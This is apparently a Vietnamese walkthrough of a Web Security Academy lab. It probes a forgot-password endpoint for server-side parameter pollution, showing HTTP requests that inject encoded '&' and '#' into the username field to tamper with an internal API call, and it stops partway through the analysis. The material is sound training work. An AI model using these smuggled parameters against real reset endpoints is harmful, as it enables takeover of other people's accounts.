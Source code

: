 #### Analysis
- Sử dụng chức năng **change password** với **user** `administrator`
- Gửi request đến **Repeater**

```http
POST /forgot-password HTTP/2
Host: 0a35006d0421b29980007b04008e0092.web-security-academy.net
...
csrf=ArTFQBrfM4JEnexXpScOuEWnt7fE9gzs&username=administrator
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"type":"email","result":"*****@normal-user.net"}
```
- Ta thấy nó trả về **email**
- Thử **username** với **value** sai

```json
{"type":"ClientError","code":400,"error":"Invalid username."}
```
- Thử thêm **param**, sử dụng `&` được **encode**

```http
POST /forgot-password HTTP/2
Host: 0a35006d0421b29980007b04008e0092.web-security-academy.net
...
csrf=ArTFQBrfM4JEnexXpScOuEWnt7fE9gzs&username=administrator%26xnxx=pornhub
```

```json
{"error": "Parameter is not supported."}
```
- Cho thấy đã **inject** được => không **support param** `xnxx`
- Sử dụng **fragment (#)** để bỏ qua **param** phía sau

```http
POST /forgot-password HTTP/2
Host: 0a35006d0421b29980007b04008e0092.web-security-academy.net
...
csrf=ArTFQBrfM4JEnexXpScOuEWnt7fE9gzs&username=administrator%26
```

```json
{"error": "Field not specified."}
```
- Dựa vào **response** ta thấy ứng dụng gửi **request** đến **API** nội bộ nhưng thiếu **param** `field`, tương tự như sau

```http
POST /internal-api/reset?username=administrator#field=email HTTP/1.1
```
- Ta sẽ sử dụng `&` để thêm field do mình kiểm soát và `#` để **internal api** bỏ qua `field=email`
- Thử xem kết quả có giống request ban đầu hay không
